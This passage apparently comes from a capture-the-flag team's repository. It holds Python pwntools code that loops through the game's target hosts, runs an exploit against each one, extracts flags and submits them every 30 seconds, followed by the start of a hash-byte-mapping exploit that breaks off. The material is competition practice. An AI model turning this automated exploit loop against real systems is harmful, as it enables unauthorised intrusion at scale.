 ```python
        before_flag = p.recvuntil(": ")

        flag = p.recvuntil("\n").strip()

        flags.append(flag.decode("ascii")) # save flag

    except:
        pass

    p.close()
    return flags

if __name__ == "__main__":
    while True:
        print(f"--- Starting attack at: {time.ctime()} ---")
        for target in t.get_targets(3):  # iterate through all the target
            flag_id = target['flag_id']  # get their baby id
            host_ip = target['hostname'] # get their hostname
            try:
                flags = exp(host_ip, flag_id)
                print(flags)
                stat = t.submit_flag(flags)
                print(stat)
            except:
                pass
        print("--- Attack done. ---")
        time.sleep(30)
```

## get_baby_name() exploit

```python
from pwn import remote, context
import hashlib
import string
from swpag_client import Team
import time

context.log_level = "error"

t = Team("REDACTED", "REDACTED")

def gen_byte_map():
    byte_map = {}

    for input_i in range(2000):
        new_hash_byte = hashlib.sha256(str(input_i).encode("ascii")).digest()[:1] # get first hash byte of input_i
        new_hash_int = int.from_bytes(new_hash_byte, "little")   # convert byte to int

        if new_hash_int not in byte_map: # not in dic
            byte_map[str(new_hash_int)] = input_i  # add to dic, new_hash_int:input_i

        if len(list(byte_map.keys())) == 256: # got all the possible hash bytes
            break

    return (list(byte_map.keys()))

def exp(host_ip, flag_id):
    flags = []

    byte_map = gen_byte_map() # ['95', '107', '212', '78', '75', '239', '231', '121', '44', '25', ...]
```
